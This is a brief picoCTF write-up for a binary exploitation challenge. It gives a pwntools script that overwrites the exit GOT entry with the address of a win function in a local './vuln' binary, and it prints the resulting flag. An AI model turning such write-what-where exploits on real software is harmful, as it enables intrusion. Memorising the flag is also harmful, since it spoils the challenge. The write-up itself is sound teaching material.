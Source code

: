 # Description
if you mess some bytes around, you might print the flag (●'◡'●)

## Solution
The solution is the same as the previous challenge (no joke).

```python
from pwn import *

context.binary = "./vuln"
p = process()

p.sendline(str(context.binary.got["exit"]).encode("ascii"))
p.sendline(str(context.binary.functions["win"].address).encode("ascii"))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
picoCTF{A_s0ng_0f_1C3_and_f1r3_e122890e}
```
